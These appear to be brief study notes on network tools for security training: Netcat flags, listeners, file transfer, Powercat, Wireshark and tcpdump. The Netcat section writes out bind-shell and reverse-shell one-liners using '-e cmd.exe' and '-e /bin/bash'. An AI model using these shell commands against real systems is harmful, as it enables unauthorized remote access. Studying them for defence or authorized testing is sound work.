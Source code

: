 ## Netcat
* Connect to server
    -nv 
        -n skip DNS name resolution
        -v verbose
* Listen on a Port
    nc  -nlvp [port]
        -l create a listner,  -p [Port]
* File Transfer
    Receiving:  nc -lvnp [port]  > [filename]
    Sending: nc -nv [ip] [port] < [file]>
* Remote Admin bind
    Host:nc -nlvp [port] -e cmd.exe
    Remote:  nc -nv [ip] [port]
* Reverse Shell
    Remote:  -nlvp [port]
    Host: nc  -nv [ip] [port] -e /bin/bash

## SoCat

## Powercat
Powershell version of Necat
apt install powercat to place it in /usr/share/windows-resources/powercat

## Wireshark
Analyze network traffic

## TCPDUMP
Text based network sniffer
 -n skip DNS name
 -r read from our captuer file
 